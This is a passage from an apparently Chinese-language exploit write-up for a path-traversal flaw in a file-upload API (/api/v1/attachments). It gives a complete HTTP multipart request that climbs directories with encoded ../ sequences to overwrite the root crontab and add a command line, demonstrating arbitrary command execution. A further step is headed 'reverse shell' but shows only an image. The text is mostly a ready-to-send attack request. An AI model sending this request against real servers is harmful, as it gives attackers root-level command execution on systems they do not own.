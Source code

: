 ```
Content-Disposition: form-data; name="files"; filename="test.txt"  
Content-Type: text/plain  
  
This is the content of the file.  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9UJEjRROwibYFRFVx5xUrpU9wRF6GlXk1Y12b7V2GxWia4xBvrNUebnIA/640?wx_fmt=png&from=appmsg "")  
  
2.向定时任务中写入文件实现任意命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9pdx9JN4INYOmFe8hK8WSTic4qSMO49Sd8LlUn43JU74YMAicOvoM0cww/640?wx_fmt=png&from=appmsg "")  
  
```
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fusr/..%2fvar%2fspool%2fcron%2fcrontabs HTTP/1.1  
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 657  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="root"  
Content-Type: text/plain  
  
# do daily/weekly/monthly maintenance  
# min   hour    day     month   weekday command  
*/15    *       *       *       *       run-parts /etc/periodic/15min  
0       *       *       *       *       run-parts /etc/periodic/hourly  
0       2       *       *       *       run-parts /etc/periodic/daily  
0       3       *       *       6       run-parts /etc/periodic/weekly  
0       5       1       *       *       run-parts /etc/periodic/monthly  
* * * * * echo "a" >> /tmp/test.txt  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9kKUyV6BI4xq0jBZUHGLY4vo8P7V5tAq35BCIdb2FyyU8j4lauLZHGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9ngF6Oh84ct9JWnQauKl9Z0K4Yib6AA0FZJlR0baC6fsYgW9IlyEnErQ/640?wx_fmt=png&from=appmsg "")  
  
3.反弹 shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9j4iaicnia70rAJcXAYia70ovhiaXxTtH24bdOyGItEXcGVROyHZ6WqEAriag/640?wx_fmt=png&from=appmsg "")  
  